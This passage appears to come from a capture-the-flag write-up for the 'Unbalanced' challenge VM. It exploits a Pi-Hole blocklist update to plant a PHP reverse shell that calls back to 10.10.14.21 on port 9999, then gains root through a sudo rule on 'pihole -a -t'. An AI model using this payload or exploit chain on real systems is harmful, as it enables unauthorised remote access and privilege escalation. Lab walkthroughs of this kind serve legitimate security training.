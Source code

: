 Now that the URL was added to the blocklist, I needed to Click "Save and Update", and a few seconds later, I received a connection back to the netcat listener on port 80. Once the connection was established, I needed to do the following:

1. Provide a 200 response to the initial connection `HTTP/1.1 200 OK`
2. Hit enter twice, type some words, hit enter twice, Ctrl+c
3. Restart listener and click update again
4. Enter reverse shell payload

The reverse shell payload is provided below:

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.21/9999 0>&1'");
?>
```

In addition to the above commands, I also needed to create a new netcat listener on port 9999 --  The image below shows the sequence of HTTP requests:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Unbalanced/img11.png"  style="width: 70%" />
</p>

> With a shell you’ve gained previously, run `sudo pihole -a -t` (www-data has a sudo rule to call pi-hole). This command will call `teleporter.php` as root. If you’ve overwritten it with a reverse shell payload (for example) you will be root.

Once the requests were submitted and I ran `sudo pihole -a -t` using the initial reverse shell, the Pi-Hole was successfully exploited and I received a connection back from the host as shown below:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Unbalanced/img12.png"  style="width: 70%" />
</p>
